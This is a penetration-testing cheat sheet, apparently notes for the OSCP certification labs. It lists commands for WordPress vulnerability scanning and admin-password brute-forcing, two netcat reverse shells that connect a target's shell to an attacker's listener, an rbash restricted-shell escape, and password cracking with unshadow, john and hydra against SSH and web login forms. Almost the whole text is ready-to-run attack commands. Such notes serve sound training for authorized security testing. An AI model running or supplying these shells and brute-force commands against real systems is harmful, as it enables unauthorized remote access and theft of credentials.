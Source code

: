 ## WordPress
#### wpscan
* find vulnerable
```
$ wpscan -u host
```
#### wpforce
* crack admin's password
```
$ python wpforce.py -si admin -w password-file.txt -u host
```

### Reverseshell
## netcat 
* standard way
```
$ nc -e /bin/bash 10.10.14.14 4444 
```
* if parameter -e is not available
```
*On Kali machine start listener:
nc -l 4444

*Paste this:
echo "cat /etc/passwd"

*Execute this on the target machine:
rm -f /tmp/b; mkfifo /tmp/b; /bin/sh -i 2>&1 0</tmp/b | nc 10.0.0.1 4444 1>/tmp/b
```

### LimitShell escape
## rbash
* edit PATH to escape rbash
```
$ BASH_CMDS[a]=/bin/sh;a 
$ /bin/bash
$ export PATH=$PATH:/bin/
$ export PATH=$PATH:/usr/bin
```
### Password Crack
## crackpot (for LM & NTLM)
check if hash has already been cracked
```
$ https://cracker.offensive-security.com/
Use Priority code from personal OSCP profile page
```
## john
first obtain /etc/shadow and /etc/passwd, then
```
$ unshadow passwd.txt shadow.txt > hash.txt 
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
## hydra
```
$ hydra -l root -P password-file.txt 10.11.1.219 ssh
  hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/uripath/login.php:username=admin&password=^PASS^:Invalid"
```